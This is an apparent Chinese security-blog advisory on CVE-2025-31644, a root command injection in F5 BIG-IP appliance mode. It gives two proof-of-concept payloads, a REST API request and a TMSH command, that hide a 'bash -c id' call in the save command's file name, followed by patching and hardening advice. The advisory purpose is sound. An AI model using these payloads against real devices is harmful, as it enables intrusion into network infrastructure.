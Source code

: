 #  F5 BIG-IP rce漏洞 CVE-2025-31644   
原创 棉花糖糖糖  棉花糖网安情报站   2025-05-15 08:22  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/1mtwZURvGTkCK3ZFyqYEyTwmaLo2YSMeibz3eeShkewiadS4oh0RBl1U7BTVeEscGQrEbjWKcQzGpJEFLwr4cFQw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
# F5 BIG-IP 系统漏洞 CVE-2025-31644   
  
![CVE-2025-31644 原理示意图](https://mmbiz.qpic.cn/sz_mmbiz_png/BgpLXnnTHwbXNkR167pNlpknu89SaD9PfEU2xwhzaIEicd1YvF1dWFdaSdXlOz5fOe5fRnTX0KtknicKRy3BBaow/640?wx_fmt=png&from=appmsg "")  
  
CVE-2025-31644 原理示意图  
  
**受影响版本**  
F5 BIG-IP v16.1.4.1  
  
![漏洞验证过程](https://mmbiz.qpic.cn/sz_mmbiz_jpg/BgpLXnnTHwbXNkR167pNlpknu89SaD9PhZnvtBuK2N0SahR4MFmd9wfYsCtBTmDSannBx0vsL7clPwLjhAe96g/640?wx_fmt=other&from=appmsg "")  
  
漏洞验证过程  
## 漏洞详情  
### 漏洞特征  
- **编号**  
: CVE-2025-31644  
  
- **类型**  
: 设备模式下的命令注入漏洞  
  
- **风险**  
: 管理员通过认证后可获得 root 权限远程代码执行  
  
### 技术原理  
  
在 Appliance 模式下，"save"指令的文件参数（file  
）存在未过滤的 Perl 脚本和系统命令调用，攻击者可通过构造特殊字符（如反引号 ```）实现命令注入。该漏洞仅在 BIG-IP 设备启用 Appliance 模式时生效，此模式的安全机制本应阻止高级 shell 命令执行。  
## 漏洞验证  
#### API 接口payload  
```
POST /mgmt/tm/sys/config HTTP/1.1
Host: target_host
Authorization: Basic [base64_credentials]
Content-Type: application/json

{
  "command": "save",
  "options": [
    {
      "file": "/var/tmp/`bash${IFS}-c${IFS}'id'|tee${IFS}mal_was_here.scf",
      "passphrase": "dummy"
    }
  ]
}

```  
#### TMSH CLI payload  
```
save sys config file /var/tmp/`bash${IFS}-c${IFS}'id'${IFS}'>&2'.scf no-passphrase

```  
  
![SSH 攻击验证截图](https://mmbiz.qpic.cn/sz_mmbiz_jpg/BgpLXnnTHwbXNkR167pNlpknu89SaD9PFCcVtcsvjOicQG14TegCP0XwGF4ic2sbRNDpMEyde0JDLLkj5YykC4sg/640?wx_fmt=other&from=appmsg "")  
  
SSH 攻击验证截图  
## 防御建议  
1. 及时更新官方安全补丁  
  
1. 严格控制管理接口访问权限  
  
1. 在非必要情况下关闭 Appliance 模式  
  
1. 启用多因素认证机制  
  
  
  
